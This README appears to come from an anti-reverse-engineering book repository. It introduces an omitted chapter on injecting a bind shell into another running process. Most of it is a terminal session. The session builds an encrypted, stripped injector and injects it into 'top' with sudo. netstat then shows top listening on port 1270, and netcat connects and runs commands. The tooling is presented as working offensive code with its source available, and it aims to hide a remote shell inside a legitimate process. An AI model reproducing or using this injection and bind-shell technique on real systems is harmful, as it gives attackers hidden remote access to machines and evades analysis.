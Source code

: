 # The Unwritten Chapter
This chapter centered around injecting code (wooden_house) into another running
process and starting a pthread. In this way, the bind shell is injected into
an entirely different process which is pretty neat. However, it takes a lot of
work and I just decided it wasn't worth including in the write up. However,
all the code is available here.

Example usage:
```sh
albino-lobster@ubuntu:~/antire_book/unwritten_chapter/dontpanic/build$ make
[ 13%] Built target computeChecksums
[ 31%] Built target encryptSections
[ 40%] Built target cryptor
[ 50%] Built target stripBinary
[ 59%] Built target convertToFile
[ 68%] Built target woodenhouse
[ 68%] Built target addLDS
Scanning dependencies of target trouble
[ 72%] Building C object trouble/CMakeFiles/trouble.dir/src/main.c.o
[ 77%] Building C object trouble/CMakeFiles/trouble.dir/src/load_binary.c.o
[ 81%] Building C object trouble/CMakeFiles/trouble.dir/__/common/crypto/crc32.c.o
[ 86%] Building C object trouble/CMakeFiles/trouble.dir/__/common/crypto/rc4.c.o
[ 90%] Linking C executable trouble
[+] Encrypted 0x9f030
1+0 records in
1+0 records out
1 byte copied, 6.3449e-05 s, 15.8 kB/s
[100%] Built target trouble
albino-lobster@ubuntu:~/antire_book/unwritten_chapter/dontpanic/build$ sudo ./trouble/trouble `pidof top`
[sudo] password for albino-lobster: 
albino-lobster@ubuntu:~/antire_book/unwritten_chapter/dontpanic/build$ sudo netstat -tlpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      1029/dnsmasq    
tcp        0      0 0.0.0.0:1270            0.0.0.0:*               LISTEN      41489/top
albino-lobster@ubuntu:~/antire_book/unwritten_chapter/dontpanic/build$ nc 127.0.0.1 1270
ls -l
exit
albino-lobster@ubuntu:~/antire_book/unwritten_chapter/dontpanic/build$ 
```

The bind shell has been injected into top. Pretty fun, huh?
